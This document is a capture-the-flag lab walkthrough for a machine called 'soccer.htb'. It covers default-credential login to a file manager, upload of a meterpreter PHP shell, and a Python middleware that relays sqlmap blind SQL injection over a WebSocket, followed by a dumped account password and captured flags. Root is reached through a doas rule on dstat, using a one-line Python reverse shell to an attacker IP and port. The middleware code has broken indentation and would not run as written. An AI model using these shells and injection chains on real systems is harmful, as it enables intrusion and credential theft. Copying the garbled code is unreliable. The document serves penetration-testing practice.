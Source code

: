 ## Enumeration   
10.10.11.194

Enumerate services
-p22 ssh
-p80 http
-p9091smt mail(could be anything...later find out its for the api)

p80 has a webpage

Check for subdomains
run fuzz FUZZ.soccer.htb -->none fd

check subdir
/usr/share/wordlists/dirb/big.txt (small didnt work)
`dirb soccer.htb/FUZZ` --> found `soccer.htb/tiny`

/tiny is a tiny file manager 
--> checking the Github provided for the source code/usage
--> find default creds in the github and try it
admin/admin123

## Foothold
Allows uploading of files into /tiny/uploads folder
Upload a linux/meterpreter/ shell.php
Start listener on msfconsole with **correct payload**!!!
execute /tiny/uploads/shell.php

Inital foothold "www-data" gained
Upgrade shell or watever

#### Enum inside
Enumerate watever.
player flag
/home/player

Some users found?
root
player

`cat /etc/hosts` or go to nginx enabled sites in dir (/etc/nginx/sites-enabled)
Or get linpeas in somehow and execute (could get it to work prbly need it in some special folder ie uploads or smt)

Checkout soc-player.soccer.htb (after adding to /etc/hosts locally)
Signup and login page. Try to signup/login

Takes you to `soc-player.soccer.htb/check` which has an input field 
Check page source which shows the scripts used
```python
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");

###########################################################
 function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
```
Page connects to websocket on p9091 likely a SQLdatabase

When "Enter" key is pressed, takes input in the input field as id
Then uses id to send the sql query
SQLi likely possible here
Note: WebSocket (socket conenction) is used here instead of HTTP(req/res model)
Websocket - Asynchronous (Cant repeat requests like in burpsuite)
HTTP - Synchronous


The script uses a websocket so blind injection over websocket possible (google it for the python code)
- http is still used to initiate connection
- websocket handles the payload transfer
```python
from http.server import SimpleHTTPRequestHandler  
from socketserver import TCPServer  
from urllib.parse import unquote, urlparse  
from websocket import create_connection
  
ws_server = "ws://soc-player.soccer.htb:9091"  
  
def send_ws(payload):  
	ws = create_connection(ws_server)  
	# If the server returns a response on connect, use below line  
	
	#resp = ws.recv() 
	# If server returns something like a token on connect you can find and extract from here  
	  
	# For our case, format the payload in JSON  
	message = unquote(payload).replace('"','\'')
	# replacing " with ' to avoid breaking JSON structure  
	
	data = '{"id":"%s"}' % message  
	ws.send(data)  
	resp = ws.recv()  
	ws.close()  
	  
	if resp:  
		return resp  
	else:  
		return ''  
  
def middleware_server(host_port,content_type="text/plain"):  
  
	class CustomHandler(SimpleHTTPRequestHandler):  
		def do_GET(self) -> None:  
			self.send_response(200)  
		try:  
			payload = urlparse(self.path).query.split('=',1)[1]  
		except IndexError:  
			payload = False  
	  
	if payload:  
		content = send_ws(payload)  
	else:  
		content = 'No parameters specified!'  
		  
		self.send_header("Content-type", content_type)  
		self.end_headers()  
		self.wfile.write(content.encode())  
	return  
  
class _TCPServer(TCPServer):  
	allow_reuse_address = True  

#starts http server to receive reqeusts
httpd = _TCPServer(host_port, CustomHandler)  
httpd.serve_forever()
  

print("[+] Starting MiddleWare Server")  
print("[+] Send payloads in http://localhost:8081/?id=*")  

#receives response from sqlmap and sends to the ws
try:  
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:  
	pass
```

Run this program locally.

Then run sqlmap on another terminal with
`sqlmap -u “http://localhost:8081/?id=1" -p “id”`
--> sqlmap injects into the id field from this get param to the middleware
--> middleware sends ws requests to the webserver ws:// service
--> then middleware receives response on its on server and sends to sqlmap


`sqlmap -u “http://localhost:8081/?id=1" -p “id” --dump`
Database: soccer_db
Table: accounts
[1 entry]

+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+


## User 
SSH in using creds found

userflag
787e4332ddfcd8927177c1689178876b



Running linpeas found quite alot of stuff (try anyt)
/usr/local/bin/doas
/usr/bin/su

Linpeas checked the doas.conf
Here doas.conf found with the following rule:
`permit nopass player as root cmd /usr/bin/dstat`

Allows user "player" to run as "root" to cmd in the /usr/bin/dstat dir
--> So if user can get code to run in dstat it would run as root

Look for the dstat bin
`find / -type d  -name dstat 2>/dev/null`
Found:
	/usr/share/doc/dstat
	/usr/share/dstat
	/usr/local/sahre/dstat  --> the only useful dir

Create a python reverse shell plugin `dstat_anything.py` :
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```

note: for some reason only single line file taken from revershell .com is allowed. Couldnt get a whole script (properly formated) to run. 
**Rmb to change ip and port to ur own. dstat_ must be used in the naming also**

`doas -u root /usr/bin/dstat --anything.py`
On another terminal
`nc -lvnp 1234`



root flag baby!!!!!
4c657c2bc8c27020ec1e5154727ecfea


Learning areas:
- Websocket ws:// is not the same as HTTP (oh.....)
- Sometimes middleware needed but can be found online
- Doas is like Sudo but designed to be lightweight for OpenBSD
- Dstat allows runnning of custom plugins named `dstat_<name>.py` in the /usr/bin/dstat dir
- Dstat is like netstat to display system resource stats but allows customisation

Polishing:
- Always check the default creds
- Use a larger wordlist for dir enums (the default ones rarely work)
- Always check page source for scripts (XSS)
- Puting scripts in tmp then cp it to required location (ie to /usr/bin/dstat) can prevent heaache from it being deleted constantly